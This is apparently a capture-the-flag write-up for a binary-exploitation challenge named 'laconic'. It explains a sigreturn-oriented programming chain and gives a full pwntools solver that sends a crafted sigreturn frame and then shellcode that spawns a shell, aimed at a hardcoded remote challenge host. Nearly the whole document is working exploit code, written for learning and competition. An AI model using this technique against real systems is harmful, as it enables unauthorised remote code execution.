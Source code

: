 - we return into a pop rax , sigreturn syscall number with an srop payload that has this :
  - rdi=0
  - rsi=&ret right after syscall
  - rax=0 (for read syscall)
  - rip=syscall >>> this will trigger read on the address of right after syscall , os it will look like this : right before we enter syscall , the instruction after it is ret . but when syscall terminates , it becomes a shellcode we wrote .

### solver :

```python
from pwn import *
from time import sleep
context.arch = 'amd64'

def debug():
        if local<2:
                gdb.attach(p,'''
                        b* 0x0000000000043018
                           c
                        ''')
###############   files setup   ###############
local=len(sys.argv)
exe=ELF("./laconic")
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
nc="nc 94.237.61.48 57393"
port=int(nc.split(" ")[2])
host=nc.split(" ")[1]

############### remote or local ###############
if local>1:
        p=remote(host,port)
else:
        p=process([exe.path])

############### helper functions ##############
def send():
        pass

############### main exploit    ###############
syscall=0x0000000000043015
frame = SigreturnFrame()
frame.rax=0
frame.rdi=0
frame.rsi=0x0000000000043017
frame.rdx=0x100
frame.rip=0x000000000004300e # right before syscall
#frame.r15=u64("/bin/sh\x00")

payload=bytes(frame)
log.info(len(payload))
rax=0x0000000000043018
#debug()
p.send((b"a"*8+p64(rax)+p64(0xf)+p64(0x0000000000043015)+payload)[:0x106])
shellcode="mov rsp , 0x0000000000043f00\n"
shellcode+= shellcraft.sh()

p.sendline(asm(shellcode))
p.interactive()
```
